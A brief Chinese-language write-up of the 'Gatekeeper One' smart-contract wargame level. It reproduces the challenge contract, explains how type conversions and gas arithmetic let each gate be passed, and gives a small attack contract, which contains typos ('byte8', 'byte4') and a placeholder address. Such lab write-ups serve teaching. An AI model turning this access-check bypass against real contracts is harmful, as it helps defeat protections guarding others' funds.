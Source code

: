 ```yaml
---
layout: post
title: Gatekeep one
---
```


# Gatekeep one
solidity的各类型转换
```solidity
pragma solidity ^0.4.18;

contract GatekeeperOne {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(msg.gas % 8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint32(_gateKey) == uint16(_gateKey));
    require(uint32(_gateKey) != uint64(_gateKey));
    require(uint32(_gateKey) == uint16(tx.origin));
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

### 代码分析
1. gateOne说明接口需要通过合约调用
2. gateTwo说明到执行gateTwo的时候，gasleft的数量要为8191的倍数
    1. 可以先部署好攻击合约，查询到攻击合约执行到gateTwo时合约的剩余gas数量来确定需要设定的gas
3. gateThree说明：
    1. uint32(_gateKey) == uint16(tx.origin)： gateKey(共16位)的最后四位与tx.origin的后四位相同
    2. uint32(_gateKey) == uint16(_gateKey)：gateKey的第8为至12为应该全为0；
    3. uint32(_gateKey) != uint64(_gateKey)：gatekey的前8位不全为0
    
### 攻击合约
```solidity
pragma solidity ^0.4.18;

contract Test {
    address public addr;
    function Test () {
        addr = your instance address;
    }
    
    function send(byte8 key, uint256 gasAmount) {
        addr.call.gas(gasAmount)(byte4(keccak256("enter(bytes8)")), key);
    }
}
```
### 攻击方法
1. 发布攻击合约，攻击合约中attack方法中调用了enter方法
2. 调用攻击合约，传入的gateKey满足上述条件